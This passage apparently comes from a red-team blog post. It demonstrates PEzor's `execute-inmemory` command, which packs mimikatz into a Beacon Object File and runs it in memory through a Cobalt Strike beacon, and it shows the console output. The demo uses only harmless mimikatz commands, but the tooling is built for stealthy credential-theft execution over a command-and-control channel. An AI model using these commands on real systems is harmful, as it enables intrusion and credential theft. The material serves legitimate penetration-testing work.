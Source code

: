 Let's try to execute the updated `execute-inmemory` command:

```
beacon> execute-inmemory -format=bof -cleanup /root/git/PEzor/mimikatz/x64/mimikatz.exe -z 2 -p '"answer" "coffee" "exit"'
[*] Tasked beacon to execute in-memory /root/git/PEzor/mimikatz/x64/mimikatz.exe with args: "answer" "coffee" "exit"
[+] PEzor generated Beacon Object File /tmp/5e926f6b-696b-411e-a3a8-ef3ef8a87f49_root_git_PEzor_mimikatz_x64_mimikatz.exe.packed.x64.o
[*] Tasked beacon to inline-execute /tmp/5e926f6b-696b-411e-a3a8-ef3ef8a87f49_root_git_PEzor_mimikatz_x64_mimikatz.exe.packed.x64.o
[+] host called home, sent: 649508 bytes
[+] received output:
[PEzor] starting BOF...
[+] received output:

  .#####.   mimikatz 2.2.0 (x64) #19041 Jun 22 2021 22:01:20
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/


mimikatz(commandline) # answer
42.

mimikatz(commandline) # coffee

    ( (
     ) )
  .______.
  |      |]
  \      /
   `----'

mimikatz(commandline) # exit
Bye!

[+] received output:
[PEzor] cleanup complete
[+] received output:
[PEzor] payload freed
```

As always, you can find the source code in the [PEzor](https://github.com/phra/PEzor) repository.

[back](../)

